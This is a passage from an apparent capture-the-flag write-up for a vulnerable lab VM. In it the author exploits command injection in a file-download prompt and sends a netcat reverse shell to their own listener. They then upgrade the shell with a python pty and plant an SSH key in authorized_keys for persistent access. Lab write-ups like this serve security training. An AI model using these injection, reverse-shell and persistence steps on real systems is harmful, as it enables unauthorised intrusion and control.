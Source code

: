 After tinkering, I found that the 'VIEW' command, would let me inject code, if I just prepended my commands with a semi-colon. It wasn't sanitizing the input very well. 

I setup a local listener on my MacBook (192.168.1.136).

```
➜  ~  nc -lv 1234
```

I then issued the 'VIEW' command, and injected a connect-back command through netcat.

```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: ; /bin/nc.traditional -e /bin/sh 192.168.1.136 1234
```

The window just froze, so I went back to my netcat window to verify it was working. I issued the 'id' command to test it. It was in fact working, and showed that I was able to execute commands as 'anansi'.

```
id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
```

I really wanted to upgrade this shell to a 'real' shell, like over SSH, but the port scan before didn't show SSH running. On a hunch, I ran 'netstat', and I found the SSH server running on the '127.0.1.1' host, on port 2222. Checking the /etc/ssh/sshd_config file verified this configuration, albeit a bit odd. 

```
netstat -antup
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:2222          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      5382/brainpan.exe
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -
tcp        0      0 192.168.188.146:50562   192.168.1.136:1234      ESTABLISHED 5522/sh
tcp        0      0 192.168.188.146:9999    192.168.188.1:52622     ESTABLISHED 5382/brainpan.exe
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
udp        0      0 0.0.0.0:7240            0.0.0.0:*                           -
udp6       0      0 :::59406                :::*                                -
```

I added my MacBook's public key to the machine for the username 'anansi', since I didn't know the password. But first, I had to do a trick that [g0tmi1k](https://twitter.com/@g0tmi1k) taught me to get a 'proper' shell (the python).

```
python -c 'import pty;pty.spawn("/bin/bash")'
anansi@brainpan2:/opt/brainpan$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7lycUor/c861GeARol7mufaGiXdWEi1NdR2F1iNJKr/2SwbkpBnmsKr+2ko8wk+x2KQzPHkNNNoTO3BUsc1BvInyLlTqmi9L3EjVBxmeprKVIUX/2jLC4wh1V4UVSODU+DCzu1OiNfFos1Tto28p/ZA6mTPm4WrcH5rFTpnzUagS+4EpuPlBjOOCIjL2cphpFV+TvbbFrWyGtB9LIDXajx9Dw5wsyI7SyCIwpgG9zBzg2WuYf5OQcKcSB+OgEzXy2tWTT4og98EI4A26FZ9EdvvwJATQ3gvkmGKh913PvU3528gDt7R5DnkaCHt6hVCaa9JOR5b/W9DCCDGjcw31j mandreko@420-sc02j364hdkq5-man" > ~/.ssh/authorized_keys
anansi@brainpan2:/opt/brainpan$ chmod 600 ~/.ssh/authorized_keys
```
